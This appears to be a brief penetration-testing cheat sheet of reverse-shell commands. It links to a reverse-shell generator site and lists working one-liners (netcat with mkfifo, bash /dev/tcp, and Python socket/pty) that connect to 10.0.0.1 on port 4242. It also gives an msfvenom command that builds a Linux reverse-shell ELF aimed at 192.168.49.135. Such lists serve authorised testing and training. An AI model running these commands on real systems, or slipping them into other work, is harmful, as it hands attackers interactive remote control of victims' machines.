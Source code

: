 https://www.revshells.com/

Always works if there is nc:
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
```

Basic bash:
```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

Python:
```python
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

MSFVenom payloads
```bash
msfvenom -p linux/x64/shell_reverse_tcp -f elf -o shell LHOST=192.168.49.135 LPORT=445
```